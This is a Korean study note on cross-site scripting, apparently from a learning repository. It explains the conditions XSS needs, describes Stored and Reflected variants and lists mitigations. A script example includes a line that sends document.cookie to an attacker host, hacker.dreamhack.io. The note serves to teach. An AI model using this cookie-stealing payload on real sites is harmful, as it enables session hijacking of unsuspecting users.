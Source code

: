 # XSS

공격자의 입력값이
자바스크립트의 일부로 웹 브라우저에서
실행되는 취약점을 말한다.

## 목차
1. [xss를 성공하기 위해서](#xss를-성공하기-위해서)
2. [XSS with JavaScript](#XSS-with-Javascript)

## xss를 성공하기 위해서

XSS공격을 성공하기 위해서는
통상적으로 두가지의 조건이 전제되어야 한다.

    1. 입력 데이터에 대한 충분한 검증 과정이 없어야 한다.
        - 입력한 데이터가 충분한 검증 과정이 없어,
          악성스크립트가 삽입 될 수 있어야 한다.
    
    2. 서버의 응답 데이터가 웹 브라우저 내 페이지에
       출력 시 충분한 검증 과정이 없어야 한다.
       - 웹 브라우저에서 출력 시 필터링에 걸리지 않아야한다.

이들의 대표적인 예시로는 게시판 서비스이며,
이는 게시글이 검증되지 않을 경우 해당 게시글의 이용자들이
악성스크립트가 그대로 실행되기 때문에 위험하다.
```txt
+ 악성스크립트가 전달되는 방식에 따라
  Stored XSS
  Reflected XSS
  등 여러가지로 나뉜다.
  
  하지만 취약점의 원인은 동일하다.
```

## XSS with Javascript

JS는 사용자의 웹 브라우저에서 동적으로 보여주거나,
화면 구성을 변환하거나, 자동으로 버튼을 누르는 등의
작업을 할 때 많이 사용된다.

이런 JS는 웹 브라우저나 웹의 입장에서 상당히 접근성이 높기에
페이지 내용 조작, 위치 주소 변경, 개인정보 유출 등 다양한 방식으로
동작 시킬 수 있기때문에 이는 XSS에 다양하게 이용된다.

이를 작동시키는 대표적인 방법은
```html
    <script>
        alert("hello");
        //hello 문자열 alert 실행

        document.cookie; 
        //현재 페이지의 cookie 리턴

        alert(document.cookie);
        //현재 페이지의 cookie값 alert 실행

        document.cookie = "name=test;";
        //도큐먼트의 쿠키 생성, (key: name, value: test)

                
        new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
        // new Image() 는 이미지를 생성하는 함수이며,
        // src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
        // "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키"
        //주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
    </script>
```
이 처럼 script태그를 이용하는 방식이 있으며,
특정상황을 이용하는 on* 이벤트들을 이용하는 경우도 있다.

## Stored XSS

이는 악성 스크립트가 서버 내에 저장되어있다가,
사용자가 이 스크립트를 조회하는 순간
발생하는 형태의 XSS이다.

이는 게시판과 같은 형태에서는
불특정 다수에게 공격이 가능하다는 점에서
높은 파급력이 생길 가능성이 존재한다.

## Reflected XSS

이는 악성스크립트가 사용자의 요청 시
전송되는 형태이다.

사용자의 요청 데이터가 서버의 응답에
포함되는 과정에서 악성스크립트가
그대로 출력되어 발생하게 된다.

이는 Stored XSS와는 다르게 사용자의 요청 데이터에
의해 취약점이 발생하기 때문에,
변조된 데이터가 사용자의 요청으로
전송되는 형태를 유도하여야 한다.

가장 간단한 방법은 특정 링크를 유도하는 방식이 있으며,
Click Jacking, Open Redirect등의
취약점과 연계할 수 있다.

대표적인 예로는 게시물들을 조회하기 위해
입력한 데이터에 의한 방식이 있다.
해당요청에 의하여 조회 한 결과를 응답에 출력하는데,
이때 서버가 제대로 방어를 하지않으면
Reflected XSS로 이어질 수 있다.

## 해결방안

  1. Server-side Mitigations
  2. HTTPOnly 플래그 사용
  3. Content Security Policy 사용
  4. X-XSS-Protection
